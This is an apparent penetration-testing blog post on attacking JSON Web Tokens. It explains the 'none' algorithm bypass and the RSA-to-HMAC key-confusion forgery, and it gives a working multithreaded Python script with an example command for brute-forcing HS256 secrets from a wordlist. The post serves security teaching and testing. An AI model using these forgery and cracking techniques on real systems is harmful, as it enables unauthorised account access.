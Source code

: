 ```yaml
---
layout: post
title:  "JSON Web Token Pentesting"
date:   2018-04-29 13:49:33 +0000
tags: [JWT, JSON, Web Application, pentest, redteam, blueteam]
---
```

![](/assets/jwt.png)

JSON Web Token (JWT) is a standard for creating tokens that assert some number of claims. The ‘claims’ are signed by the server’s key, so the server is able to verify that the token is legitimate.

JWTs generally have three parts: a header, a payload, and a signature. Each part is base64 encoded:

![](/assets/jwt_2.png)

The header identifies which algorithm is used to generate the signature, and looks something like this:
```
header = '{"alg":"HS256","typ":"JWT"}'
The payload might look something like this:

{
  "sub": "1234567890",
  "name": "John Doe",
  "iat": 1516239022
}
```
The signature is then SHA256-HMAC of the payload and a secret key.
```
HMACSHA256(
  base64UrlEncode(header) + "." +
  base64UrlEncode(payload),
  "secret"
)
```
To familiarise your self with JWT you can use the decoder at https://jwt.io/

![](/assets/jwt_3.png)

## Algorithms
### List of algorithms
* None
* HS256
* HS384
* HS512
* RS256
* RS384
* RS512
* ES256
* ES384
* ES512

### The “none” algorithm
Its intended use is for situations where the integrity of the token has already been verified. Interestingly enough, it is one of only two algorithms that are mandatory to implement (the other being HS256). Anyone can create their own “signed” tokens with whatever payload they want, allowing arbitrary account access on some systems.

Putting together such a token is easy.
* Modify the above example header to contain “alg”: “none” instead of HS256.
* Make any desired changes to the payload.
* Use an empty signature (i.e. signature = “”).
Recent implementations should now have a basic check to prevent this attack. If a secret key is provided, that will break the verification of the none algorithm. This is a good idea, but it doesn’t solve the underlying problem: attackers control the choice of algorithm.

### Attackers control the choice of algorithm
Most of the JWT libraries that I’ve looked at have an API like this:
<pre>
verify(string token, string verificationKey)
</pre>
It returns the payload if the token is valid, else it throws an error.

In systems using HMAC signatures, verificationKey will be the server’s secret signing key (since HMAC uses the same key for signing and verifying):
<pre>
verify(clientToken, serverHMACSecretKey)
</pre>
In systems using an asymmetric algorithm, verificationKey will be the public key against which the token should be verified:
<pre>
verify(clientToken, serverRSAPublicKey)
</pre>
Unfortunately, an attacker can abuse this. If a server is expecting a token signed with RSA, but actually receives a token signed with HMAC, it will think the public key is actually an HMAC secret key.

How is this bad? HMAC secret keys are supposed to be kept private, while public keys are typically public. This means that your attacker has access to the public key, and can use this to forge a token that the server will accept.

Doing so is pretty straightforward. First, grab your favourite JWT library, and choose a payload for your token. Then, get the public key used on the server as a verification key (most likely in the text-based PEM format). Finally, sign your token using the PEM-formatted public key as an HMAC key. Essentially:
<pre>
forgedToken = sign(tokenPayload, 'HS256', serverRSAPublicKey)
</pre>
The hardest part is making sure that serverRSAPublicKey is identical to the verification key used on the server. The strings must match exactly for the attack to work — exact same format, and no extra or missing line breaks. End result? Anyone with knowledge of the public key can forge tokens that will pass verification.

## Attacking HS256 a PoC
While this is a limited PoC for HS256 this can be easily adapted to bruteforce the other algorithms.

Updated Code is available here: [https://github.com/netscylla/JWT_Hacking/](https://github.com/netscylla/JWT_Hacking/)
```
#!/usr/bin/python
#(C)2018 Netscylla
#License GNU GPL v3.0

import sys,os
import Queue
import threading
import jwt
from termcolor import colored

NumOfThreads=100
queue = Queue.Queue()

try:
    encoded=sys.argv[1]
    WordList=open(sys.argv[2],'r')
except:
    print "Usage: %s encoded wordlist" % sys.argv[0]
    sys.exit(1)

class checkHash(threading.Thread):
    def __init__(self,queue):
        threading.Thread.__init__(self)
        self.queue=queue
    def run(self):
        while True:
            self.secret=self.queue.get()
            try:
                jwt.decode(encoded, self.secret, algorithms=['HS256'])
                print colored('Success! ['+self.secret+']','green')
                os._exit(0)
                self.queue.task_done()
            except jwt.InvalidTokenError:
                print colored('Invalid Token ['+self.secret+']','red')
            except jwt.ExpiredSignatureError:
                print colored('Token Expired ['+self.secret+']','red')

for i in range(NumOfThreads):
    t=checkHash(queue)
    t.setDaemon(True)
    t.start()

for word in WordList.readlines():
    queue.put(word.strip())

queue.join()
```
Example:
<pre>
python ./JWTCrack.py eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJzdWIiOiIxMjM0NTY3ODkwIiwibmFtZSI6IkpvaG4gRG9lIiwiaWF0IjoxNTE2MjM5MDIyfQ.BhquqdHL_k3yVeIH2M-tZmerbhvQLUNvluAO0MSaILI ./rockyou.txt
</pre>
![](/assets/jwt_4.png)
